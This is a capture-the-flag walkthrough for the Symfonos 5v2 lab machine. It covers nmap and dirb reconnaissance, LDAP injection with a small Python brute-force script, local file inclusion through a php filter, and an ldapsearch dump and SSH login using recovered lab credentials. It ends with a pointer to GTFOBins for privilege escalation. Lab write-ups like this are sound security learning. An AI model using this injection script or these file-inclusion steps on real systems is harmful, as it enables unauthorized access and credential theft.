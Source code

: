 # SYMFONOS 5V2

# Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![5c85eeec9fcbcf370e825d573ebbcd96.png](./_resources/deafa02fa26b4a93b959080a6e9e7c3c.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.128 -oN full_service_enum-sC.txt`
![fac1583f3d1c8e3279936256b3cdb1d6.png](./_resources/34b390e29a164a6d9f89e36b85e7c5fd.png)

## 1.3 Web
![1d07ec80db792f70f1ca01ce5c71cb39.png](./_resources/bff54c526e9f415da0473817d0ed14df.png)

### 1.3.1 Wappalyzer
![e417e2de566f14691ed766389420ca6b.png](./_resources/5ce1e98fbe8043fa835ecfcdcc6ef712.png)

## 1.3.2 Dirb enum web content
`dirb http://192.168.196.128`
![4d40c830929a49cedc6d5dd162fb7ae1.png](./_resources/0a0b1081cd534842beacb5c5693314ea.png)


# 2 Exploitation 
Since we have a login page with php (80) and ldap port (389), becomes deductible that the login is based on ldap authentication.

## 2.1 Ldap injection - burpsuit intruder 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md
![b549598719eae6ffb3f1b5563a768d5c.png](./_resources/63b6957412504f2691fe4123f66fb415.png)
At one point it returns responses of different length.

## 2.1 Ldap injection - automation python script
```
# Script para ldap injection - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-

import requests
import re

def brute(target, headers):
    f = open("ldapi-payloads.txt", "r")
    for i in f:
        params = (
            ('username', i),
            ('password', 'teste'),
        )
            
        response = requests.get('http://'+target+'/admin.php', headers=headers, params=params, verify=False)

        try:
            re.findall(r'Invalid', response.content)[0]

        except IndexError:
            print ("Payload encontrada: %s" %i)


def main():
    target = '192.168.196.130'

    headers = {
        'Host': target,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Referer': 'http://192.168.196.130/admin.php',
        'Upgrade-Insecure-Requests': '1',
    }
    brute(target, headers)


main()
````

## 2.2 Local file inclusion after login
![ee4356d8b67bedd8fbe989f961e86a1a.png](./_resources/5ae134b2455e48ef937780e99b675901.png)
A normal payload (/etc/passwd) works, and there was an attempt to read admin.php for analyse its code, but it is rendered. We dont need an rendered page, we need read it. For it was used php filter:
![ebc7c3f32e61d368c35bed337b2f09b0.png](./_resources/ac7266981ca346009b6e1f99f807e39c.png)
Ant it works.

Now we can decode and read it:
![3464297aaa1f79da24548da3b2040de7.png](./_resources/2a0c9a6803084a9f90290106b50f93a2.png)

Let’s use these credentials to dump all the information using ldap.
```
ldapsearch -x -LLL -h 192.168.196.128 -D 'cn=admin,dc=symfonos,dc=local' -w qMDdyZh3cT6eeAWD -b 'dc=symfonos,dc=local'
```
![6acd37b2c09c51c28a9df47a04433b43.png](./_resources/0ad781d9c6d3402a998e79935d88a86c.png)

## 2.2.1 SSH using zeus account
zeus:cetkKf4wCuHC9FET
![bd224c6770df272f225fe539ea0ca4ca.png](./_resources/5dc5e9268fd14d818a4f9a0a1029579b.png)


# 3 Post-exploitation
https://gtfobins.github.io/gtfobins/dpkg/

LinEnum.sh returned some good informations:
![a8930b15a4e6fea2c76677d100e8a15d.png](./_resources/e2c3119d4ddc4a09861c59075575c8ac.png)
![ca2b481efa73145d38df2a60fd66df71.png](./_resources/e078831174654845bf64330c71c2d07d.png)

